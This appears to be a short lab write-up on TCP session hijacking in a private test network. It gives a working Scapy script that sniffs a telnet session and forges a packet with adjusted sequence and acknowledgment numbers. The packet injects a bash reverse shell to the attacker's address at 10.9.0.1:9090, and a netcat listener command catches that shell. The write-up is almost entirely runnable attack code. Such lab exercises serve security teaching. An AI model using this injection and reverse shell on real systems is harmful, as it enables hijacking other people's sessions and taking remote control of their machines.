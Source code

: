 1. After establishing a connection, we need to setup the malicious packet that will be sent using the session hijacking technique. We will use the same code as the above task, but change some fields.

```python
from scapy.all import *

user1 = "10.9.0.6"
victim = "10.9.0.5"

def spoof(pkt):
    old_ip = pkt[IP]
    old_tcp = pkt[TCP]

    newseq = old_tcp.seq+5
    newack = old_tcp.ack+1
    
    print(f"oldseq: {old_tcp.seq}, newseq: {newseq}")
    print(f"oldack: {old_tcp.ack}, newack: {newack}")

    ip = IP(src=user1, dst=victim)
    tcp = TCP(sport=old_tcp.sport, dport=23, flags="A", seq=newseq, ack=newack)
    data = "; /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\n"

    newpkt = ip/tcp/data
    send(newpkt, verbose=0, iface="br-d359077599dd")
    quit()

filter = f"tcp and src host {user1} and dst host {victim} and dst port 23"
sniff(filter=filter, prn=spoof, iface="br-d359077599dd")****
```

> The only differences are the source and destination IPs, and the data that will create the reverse shell connection. Also see that the SEQ number we chose is the previous one plus 5. Therefore, the data we send will be stored in the buffer until 5 characters have been sent through the telnet connection.

2. The `data` variable connects back to the IP address and port specified, in this case `10.9.0.1:9090`. Therefore, we need to setup a `netcat` listener on the attacking machine so that it connects with it.

```bash
nc -nlvp 9090
```
> This is done on the attacker machine.

3. Running the python code on the attacker machine after setting up the telnet connection and the `netcat` listener, we see that once the SEQ number for the packet we sent is reached, there is a connection in the `netcat` session we opened.
